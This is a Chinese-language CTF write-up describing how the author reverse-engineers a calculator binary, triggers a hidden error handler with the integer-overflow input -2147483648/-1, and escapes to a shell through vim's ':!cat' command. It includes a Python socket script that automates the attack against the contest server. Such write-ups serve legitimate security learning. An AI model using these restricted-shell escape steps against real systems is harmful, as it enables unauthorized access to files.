




[返回](./README.md)

## 0x14 "C 语言作业"

下载 calc，这个肯定是反编译了。打开 IDA 发现 main 函数十分正常，各种输入也安全。



看函数列表发现有个 `__init` ，于是点进去看了，发现注册了一系列信号触发事件，触发的是 `__err` ，这个函数是这样的。



触发事件很简单，只要让计算崩溃就好了。于是我选择了 `-2147483648/-1` 。



嗯……这里提供了一个运行外部程序的功能，但是 `sh` 被屏蔽了，而且用了 `execlp` 所以不能传参数，也没有可以缓冲区溢出的漏洞。于是中午我试了一下 `vi` `emacs` 等编辑器，发现它们都不存在。于是一时解题陷入了僵局。

于是我的一整个下午和晚上都在各种查资料各种测试，尝试从 `calc` 层面搞定（没有切入点，这当然是徒劳的）。

直到我洗完澡后不死心又试了一个 `vim` ……

居然还真有……

我tm浪费了大半天的时间，就因为我中午偷懒了没试 `vim` 存不存在？？？

行吧栽在了自己手里。

现在手速有点不够用了，于是我拿出了 py。

```python
from socket import *
tcpClient=socket(AF_INET,SOCK_STREAM)
tcpClient.connect(("202.38.95.46",12008))

while True:
	data=tcpClient.recv(1024)
	if len(data) is 0:
		exit()
	data=data.decode(encoding="ascii") 
	print data
	try:
		if 'flag{' in data:
			exit()
		if ">>>" in data:
			tcpClient.send("-2147483648/-1\n".encode(encoding="ascii"))
		if "examine" in data:
			tcpClient.send("vim\n".encode(encoding="ascii"))
			tcpClient.send(":!cat /flag\n".encode(encoding="ascii"))
			tcpClient.send(":!cat /flag\n".encode(encoding="ascii"))
			tcpClient.send(":!cat /flag\n".encode(encoding="ascii"))
			
	except Exception as e:
		pass

tcpClient.close()
```

然后通过 vim 里敲的 `:!cat /flag` ，这坑爹玩意儿居然说 `The real flag is in the file "-"` ！

行吧，把 `/flag` 改成 `/-` 再来一次。解决。



*看了官方题解后：我居然没意识到进入 vim 以后就没有 5s 的时限了！*
